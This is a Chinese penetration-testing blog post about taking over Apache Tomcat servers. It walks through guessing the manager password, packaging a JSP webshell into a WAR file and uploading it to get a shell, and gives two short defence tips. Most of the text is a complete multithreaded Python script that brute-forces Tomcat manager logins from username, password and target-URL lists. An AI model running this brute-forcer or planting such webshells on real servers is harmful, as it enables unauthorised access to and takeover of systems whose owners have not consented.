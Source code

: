 ```yaml
---
draft: false
date: 2016-08-02 22:30:13
title: Tomcat 部署 War 包 getshell
description: 
categories:
  - Pentest
tags:
  - getshell
---
```


### 0x00 关于 War 包
```
War包一般是进行Web开发时一个网站Project下的所有代码,包括前台HTML/CSS/JS代码,
以及Java的代码。当开发人员开发完毕时,就会将源码打包给测试人员测试,测试完后若要发布
则也会打包成War包进行发布。War包可以放在Tomcat下的webapps或word目录,当Tomcat
服务器启动时,War包也会随之被解压后自动部署。
```

### 0x01 上传 War 包 GetShell
* 找到后台猜密码然后登录
![70](/img/post/tomcat_vul_background.png)
![40](/img/post/tomcat_vul_login.png)
![30](/img/post/tomcat_vul_war_login_success.png)

* 上传 War 包

运行 jar -cf job.war ./job.jsp 生成 war 包

或者先将 jsp 大马压缩为 zip，再将 zip 后缀改名为 war ，然后上传 war 包

![50](/img/post/tomcot_vul_put_war.png)
![40](/img/post/tomcot_vul_put_war_success.png)
![60](/img/post/tomcot_vul_visit_shell1.png)
![60](/img/post/tomcot_vul_visit_shell2.png)

### 0x02 漏洞防御
* 后台使用强密码
* 删除Tomcat下的manager文件夹

### 0x03 附爆破弱口令代码
```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-

import requests
import json
import base64
import sys
import Queue
import threading

"""
简单爆破后台登陆密码
Usage: python tomcat.py username.txt password.txt urlfile.txt
username.txt为用户名字典
password.txt为密码字典
urlfile.txt为后台url列表
"""

def get_username(userfile):
    username = []
    with open(userfile, 'r') as f:
        lines = f.readlines()
        for line in lines:
            username.append(line.strip())
    return username

def get_pwd(passfile):
    password = []
    with open(passfile, 'r') as f:
        lines = f.readlines()
        for line in lines:
            password.append(line.strip())
    return password

def get_url(urlfile):
    urllist = Queue.Queue()
    with open(urlfile,'r') as f:
        lines = f.readlines()
        for line in lines:
            urllist.put(line.strip())
    return urllist

def thread(f,urls,names,pwds):
    while not urls.empty():
        s = requests.Session()
        url = urls.get()
        resp = s.get(url,timeout=10)  #用于记录cookie
        Referer = resp.url

        headers = {
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0',
            'Referer': Referer,
        }
        bgurl = url + 'manager/html'
        # print bgurl
        for name in names:
            for pwd in pwds:
                authorize = name + ':' + pwd
                Basic = "Basic " + base64.b64encode(authorize)
                headers['Authorization'] = Basic
                # print json.dumps(headers, indent=4)

                proxy = {
                    'http':'http://127.0.0.1:1080'
                }

                resp = s.get(bgurl,headers=headers,proxies=proxy,timeout=10)
                if resp.status_code == 200:
                    s = "[Ok] %s\t%s:%s" % (bgurl,name,pwd)
                    print s
                    f.write(s)
                    exit()
                else:
                    print '[Error] ' + bgurl + '\t' + name + ':' + pwd
            # break

def main():
    if len(sys.argv) < 4:
        print "Usage: python tomcat.py username.txt password.txt urlfile.txt"
        exit()
    userfile = sys.argv[1]
    passfile = sys.argv[2]
    urlfile = sys.argv[3]
    names = get_pwd(userfile)
    pwds = get_pwd(passfile)
    urls = get_url(urlfile)

    tlist = []
    f = open("result.txt","a+")
    for x in xrange(1,50):
        t = threading.Thread(target=thread,args=(f,urls,names,pwds,))
        tlist.append(t)
    for t in tlist:
        t.start()
    t.join()

main()
```